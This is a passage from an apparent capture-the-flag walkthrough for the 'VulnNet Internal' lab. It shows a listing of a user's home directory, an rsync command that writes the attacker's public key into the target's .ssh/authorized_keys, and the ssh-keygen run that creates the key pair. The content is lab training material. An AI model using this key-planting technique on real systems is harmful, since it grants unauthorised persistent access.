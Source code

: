 ```bash
-rw-r--r--             14 2018/02/12 19:09:01 .xscreensaver
-rw-------          2,546 2021/02/06 12:49:35 .xsession-errors
-rw-------          2,546 2021/02/06 11:40:13 .xsession-errors.old
-rw-------             38 2021/02/06 11:54:25 user.txt
drwxrwxr-x          4,096 2021/02/02 09:23:00 .cache
drwxrwxr-x          4,096 2021/02/01 12:53:57 .config
drwx------          4,096 2021/02/01 12:53:19 .dbus
drwx------          4,096 2021/02/01 12:53:18 .gnupg
drwxrwxr-x          4,096 2021/02/01 12:53:22 .local
drwx------          4,096 2021/02/01 13:37:15 .mozilla
drwxrwxr-x          4,096 2021/02/06 11:43:14 .ssh
drwx------          4,096 2021/02/02 11:16:16 .thumbnails
drwx------          4,096 2021/02/01 12:53:21 Desktop
drwxr-xr-x          4,096 2021/02/01 12:53:22 Documents
drwxr-xr-x          4,096 2021/02/01 13:46:46 Downloads
drwxr-xr-x          4,096 2021/02/01 12:53:22 Music
drwxr-xr-x          4,096 2021/02/01 12:53:22 Pictures
drwxr-xr-x          4,096 2021/02/01 12:53:22 Public
drwxr-xr-x          4,096 2021/02/01 12:53:22 Templates
drwxr-xr-x          4,096 2021/02/01 12:53:22 Videos
:~/VulnNetInternal# rsync -hv user.pub rsync://rsync-connect@Target_IP/files/sys-internal/.ssh/authorized_keys --inplace
...
```

<br>

> 1.4. <em>What is the root flag? (root.txt)</em><br><a id='1.4'></a>
>> <code><strong>____________________________________</strong></code>

<p>Discovered that we have read, write, and execute permission in <code>sys-internal/.ssh</code></p>


<p>Generated <code>VulnNetInternalRSA</code> and <code>VulnNetInternalRSA.pub</code>.</p>

```bash
:~/VulnNetInternal/files/sys-internal/.ssh# ssh-keygen -f VulnNetInternalRSA
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in VulnNetInternalRSA
Your public key has been saved in VulnNetInternalRSA.pub
The key fingerprint is:
SHA256:[ Redacted ] [ Redacted ]
The key's randomart image is:
+---[RSA 3072]----+
|          . ...==|
|         . +..=.*|
|          * ...+=|
|         + = ..o+|
|        S = . ..E|
|       o O    ..*|
|        * .  o +B|
|       . o  . +.*|
|             .o*o|
+----[SHA256]-----+
```
